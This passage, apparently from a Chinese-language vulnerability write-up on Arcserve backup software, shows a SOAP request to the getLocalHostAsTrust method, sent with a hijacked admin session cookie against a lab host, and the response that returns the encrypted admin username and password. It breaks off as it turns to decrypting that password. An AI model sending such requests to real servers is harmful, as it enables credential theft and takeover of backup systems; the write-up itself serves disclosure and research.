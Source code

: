     
    
     **找回管理员密码**

一旦我们利用该漏洞获得了有效的管理员会话，接下来我们可以做的就是使用它与 WebService 交互并检索管理员密码。幸运的是，ArcServe
提供了一个名为getLocalHostAsTrust的方法，它返回加密的密码：

  *   *   *   *   *   *   * 

    
    
    POST /WebServiceImpl/services/FlashServiceImpl HTTP/1.1Cookie: AGENTJSESSIONID=1D5290DAC2BBD2D98D97F8EDC594A7B7SOAPAction: "<http://webservice.arcflash.ca.com/IFlashService_R16_5/getVersionInfoRequest>"Host: 192.168.56.20:8014Content-Length: 917  
    <?xml version='1.0' encoding='UTF-8'?><S:Envelope xmlns:S="<http://schemas.xmlsoap.org/soap/envelope/>"><S:Body><ns2:getLocalHostAsTrust xmlns:ns2="<http://webservice.arcflash.ca.com>" xmlns:ns3="<http://backup.data.webservice.arcflash.ca.com/xsd>" xmlns:ns4="<http://data.webservice.arcflash.ca.com/xsd>" xmlns:ns5="<http://export.data.webservice.arcflash.ca.com/xsd>" xmlns:ns6="<http://vsphere.data.webservice.arcflash.ca.com/xsd>" xmlns:ns7="<http://browse.data.webservice.arcflash.ca.com/xsd>" xmlns:ns8="<http://restore.data.webservice.arcflash.ca.com/xsd>" xmlns:ns9="<http://catalog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns10="<http://activitylog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns11="<http://remotedeploy.data.webservice.arcflash.ca.com/xsd>" xmlns:ns12="<http://history.job.data.webservice.arcflash.ca.com/xsd>" xmlns:ns13="<http://webservice.edge.arcserve.ca.com/>"></ns2:getLocalHostAsTrust></S:Body></S:Envelope>
    
    
    中大奖！！！

  *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200Date: Sat, 04 Feb 2023 11:12:14 GMTServer: ApacheContent-Type: text/xml;charset=utf-8Content-Length: 1625  
    <?xml version='1.0' encoding='UTF-8'?><S:Envelope xmlns:S="<http://schemas.xmlsoap.org/soap/envelope/>"><S:Body><ns2:getLocalHostAsTrustResponse xmlns:ns2="<http://webservice.arcflash.ca.com>" xmlns:ns3="<http://history.job.data.webservice.arcflash.ca.com/xsd>" xmlns:ns4="<http://vsphere.data.webservice.arcflash.ca.com/xsd>" xmlns:ns5="<http://data.webservice.arcflash.ca.com/xsd>" xmlns:ns6="<http://backup.data.webservice.arcflash.ca.com/xsd>" xmlns:ns7="<http://browse.data.webservice.arcflash.ca.com/xsd>" xmlns:ns8="<http://restore.data.webservice.arcflash.ca.com/xsd>" xmlns:ns9="<http://catalog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns10="<http://export.data.webservice.arcflash.ca.com/xsd>" xmlns:ns11="<http://remotedeploy.data.webservice.arcflash.ca.com/xsd>" xmlns:ns12="<http://activitylog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns13="<http://webservice.edge.arcserve.ca.com/>"><ns2:return><ns5:name>KINGSLANDING</ns5:name><ns5:port>0</ns5:port><ns5:uuid>TkVGQRAHCSAYAAAAEGYAAEgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACNN6wnCXQUv9XXeaqIvNyGjJ2C6dkWgkLGoLC4fym3LtFGinaud8DVix81Up1/aThbifZVqlRsu4R0T9P92JjvcVF6bKT6KrnHx6DCZALSTQ</ns5:uuid><ns5:userName>vagrant</ns5:userName><ns5:password>TkVGQRAHCSAYAAAAEGYAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACFPGHAnp8ZjTr6rqmN2Ghi</ns5:password><ns5:type>0</ns5:type><ns5:d2dVersion>9</ns5:d2dVersion></ns2:return></ns2:getLocalHostAsTrustResponse></S:Body></S:Envelope
    
    
    要了解如何解密密码，我们必须关注edge-app-base-webservice-impl.jar。该文件包含一个名为XmlDecrypter的类，其内容如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    